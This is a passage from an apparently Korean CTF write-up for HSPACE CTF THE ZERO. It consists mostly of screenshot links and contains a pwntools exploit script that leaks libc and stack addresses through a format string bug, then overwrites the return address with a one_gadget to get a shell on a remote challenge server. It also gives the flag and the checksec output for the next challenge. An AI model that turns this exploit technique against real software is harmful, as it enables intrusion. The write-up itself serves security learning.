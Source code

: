 - 실행결과

![](https://cdn.jsdelivr.net/gh/SaturnX-Korea/saturnx-korea.github.io/assets/post/HSPACE%20CTF%20THE%20ZERO%20Write-up%2091ac8e6fcfa64ea3ba4259919f19470e/Untitled%2064.png)

- main()

![](https://cdn.jsdelivr.net/gh/SaturnX-Korea/saturnx-korea.github.io/assets/post/HSPACE%20CTF%20THE%20ZERO%20Write-up%2091ac8e6fcfa64ea3ba4259919f19470e/Untitled%2065.png)

- fsb(Format String Bug)

![](https://cdn.jsdelivr.net/gh/SaturnX-Korea/saturnx-korea.github.io/assets/post/HSPACE%20CTF%20THE%20ZERO%20Write-up%2091ac8e6fcfa64ea3ba4259919f19470e/Untitled%2066.png)

- exploit.py

```python
from pwn import *

bi = './chall'
#r = process([bi], env={'LD_PRELOAD':''})
r = remote('183.109.94.101', 9101)
context.arch = 'amd64'

pay = '%p|'*8
r.sendlineafter('> ', pay)
leak = r.recvline().strip().split('|')
print leak
libc = int(leak[2], 16) - 0x110151
stack = int(leak[5], 16) - 0xe0 # ret
print hex(libc), hex(stack)

pay = fmtstr_payload(8, {stack: libc+0x4f3d5}) # one_gadget
r.sendlineafter('> ', pay)

r.interactive()
```

FLAG: hspace{typinG_2_iS_toO_easY}

## [SYSTEM] No sc

```python
**FROM ubuntu:18.04**

Arch:     amd64-64-little
RELRO:    **Full RELRO**
Stack:    No canary found
NX:       **NX enabled**
PIE:      **PIE enabled**
```

- 실행결과

![](https://cdn.jsdelivr.net/gh/SaturnX-Korea/saturnx-korea.github.io/assets/post/HSPACE%20CTF%20THE%20ZERO%20Write-up%2091ac8e6fcfa64ea3ba4259919f19470e/Untitled%2067.png)

